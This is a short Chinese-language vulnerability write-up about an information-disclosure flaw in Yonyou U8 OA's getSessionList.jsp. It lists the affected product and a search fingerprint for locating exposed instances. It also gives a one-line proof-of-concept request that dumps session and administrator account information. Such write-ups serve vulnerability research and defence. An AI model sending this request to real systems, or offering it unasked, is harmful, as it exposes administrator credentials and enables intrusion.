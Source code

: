 # 

# 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

```
用友 U8 OA
```

## 网络测绘

```
"用友U8-OA"
```

## 漏洞复现

登录页面

![image-20220520141805589](./images/202205201418731.png)

验证POC

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![image-20220520141832426](./images/202205201418464.png)
